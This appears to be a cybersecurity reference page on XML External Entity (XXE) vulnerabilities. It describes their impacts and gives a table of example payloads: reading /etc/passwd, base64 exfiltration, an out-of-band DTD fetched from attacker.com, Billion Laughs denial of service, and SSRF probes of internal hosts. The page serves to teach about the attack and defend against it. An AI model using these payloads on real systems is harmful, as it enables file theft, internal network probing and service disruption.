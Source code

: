 ```yaml
---
legal-banner: true
---
```


### **Introduction**

XML External Entity (XXE) is a vulnerability where attacker manipulate XML processing to access server files, provoke server-side behaviors, or interact with backend systems, often leading to unauthorized data exposure or system impacts.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Server
    participant C as XML Parser
    participant U as User

    A->>B: 1. Sends XML Request with Malicious Payload
    B->>C: 2. Passes XML to Parser
    C-->>B: 3. Resolves External Entity (retrieves data)
    B-->>A: 4. Sends Response with Retrieved Data
```

### **The Impact of XXE Attacks**

| Impact                           | Description                                                                                                                                                                       |
|--------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Local File Inclusion             | Attacker can access and retrieve the contents of local files by using the "[file://](file://)" scheme.                                                                                  |
| Server-Side Request Forgery (SSRF)| The attacker could force the vulnerable server to send HTTP requests to other servers and then capture the responses using "http://" or "https://".                                      |
| Blind SSRF                       | Even when direct responses aren’t returned, attacker could forward the response data to an external server under their control by nesting entities.                                     |
| Information Disclosure           | Malformed XML payloads could cause the application to unintentionally leak sensitive information.                                                                                       |
| Denial-of-Service (DoS)          | Some XML parsers are prone to vulnerabilities that can crash the system when handling specially crafted XML files.                                                                      |

### **Overview of XXE Exploitation Techniques**

This table outlines different XXE exploitation techniques, showcasing example payloads and their effects. These methods leverage XML parser vulnerabilities to extract data, disrupt services, or access internal systems.

| Payload Type | Example Payload | Description |
| --- | --- | --- |
| Remote Resource Retrieval | `<!ENTITY xxe SYSTEM "http://example.com/malicious.dtd">` | This method retrieves external resources by defining an entity that loads data from a remote URL. |
| Local File Disclosure (LFI) | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | This technique accesses local files on the server by specifying a local file path |
| Base64 Encoding for Data Exfiltration | `<!ENTITY data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">` | Encodes the contents of local files in Base64 format to bypass simple data leakage protections and exfiltrate data covertly. |
| Error-Induced Information Leakage | `<!ENTITY % err SYSTEM "file:///nonexistent/%file;"> <!ENTITY call '%err;'>` | Intentionally triggers errors that can leak server information or expose other vulnerabilities. |
| Out-of-Band (OOB) Interaction | `<!ENTITY % dtd SYSTEM "http://attacker.com/external.dtd"> %dtd;` | Uses external entities to initiate interactions with an attacker-controlled server, allowing data to be transmitted out-of-band. |
| Blind XXE for Service Probing | `<!ENTITY % xxe SYSTEM "http://internal-service.example.com/"> %xxe;` | Exploits blind XXE to probe internal systems and services by trying to interact with them. |
| Recursive Entity Expansion (Billion Laughs Attack) | `<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;"> ... <!ENTITY lol9 "&lol8;&lol8;">` | Causes a denial of service by creating an exponential growth in processing requirements through nested entities. |
| Parameter Entity Attack for SSRF | `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://private.example.com/"> %xxe;]>` | Uses parameter entities to construct requests for server-side request forgery (SSRF), targeting internal or external systems. |
| Complex Nested Entities | `<!DOCTYPE root [<!ENTITY % pe SYSTEM "http://example.com/ent.dtd"> %pe;]>` | Involves defining entities within entities, potentially leading to complex exploitations and unexpected behaviors from the XML parser. |